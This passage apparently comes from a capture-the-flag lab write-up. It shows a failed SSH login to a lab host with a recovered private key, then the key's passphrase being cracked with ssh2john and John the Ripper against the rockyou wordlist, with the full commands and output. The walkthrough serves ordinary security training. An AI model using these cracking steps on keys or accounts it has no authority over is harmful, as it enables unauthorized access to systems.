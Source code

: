 !["rsa-decrypt-ssh-key.png"](files/rsa-decrypt-ssh-key.png)

## SSH connection (attempt)

Save this as id_rsa, give it the proper rights and connect:

~~~
$ chmod 600 id_rsa
$ ssh -i id_rsa willow@10.10.229.86
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
willow@10.10.229.86's password: 
Permission denied, please try again.
willow@10.10.229.86's password: 
Permission denied, please try again.
willow@10.10.229.86's password: 
willow@10.10.229.86: Permission denied (publickey,password,hostbased).
~~~

## Crack the passphrase

It looks like the key is password protected. Let's break it with John:

~~~
$ /data/src/john/run/ssh2john.py id_rsa > ssh.hash
$ /data/src/john/run/john ssh.hash --wordlist=/data/src/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (id_rsa)
1g 0:00:00:02 DONE (2020-06-11 18:35) 0.3378g/s 4845Kp/s 4845Kc/s 4845KC/s *7¡Vamos!
Session completed. 
~~~
